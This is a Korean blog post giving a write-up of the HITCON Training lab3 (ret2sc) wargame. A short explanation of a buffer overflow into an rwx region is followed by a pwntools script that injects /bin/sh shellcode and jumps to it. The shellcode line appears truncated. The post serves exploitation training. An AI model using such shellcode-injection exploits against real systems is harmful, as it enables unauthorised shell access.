 ```yaml
---
layout: post
title: "[HITCON Training] lab3"
comments : true
category : War Game
---
```


# 문제
***

해당 binary는 read를 통해 hard coding된 영역에 0x32byte 만큼 입력을 받는다. 그리고 get 함수를 호출하는데 이 get 함수를 이용하면 bof를 발생시킬 수 있다.

<U>hard coding된 영역은 rwx권한이 부여되어 있다.</U>

ALSR이 걸려 있으므로 hard coding된 영역에 shellcode를 삽입한 뒤 get을 이용해 해당 주소로 jmp하면 shell을 얻을 수 있다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path='/home/sungyun/HITCON-Training/LAB/lab3/ret2sc'

shell="\x90"*20
shell+="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x8$

pay="A"*32+"\x60\xa0\x04\x08"


p=process(file_path)

p.recvuntil(":")
p.send(shell)
p.recvuntil(":")
p.sendline(pay)

p.interactive()

```


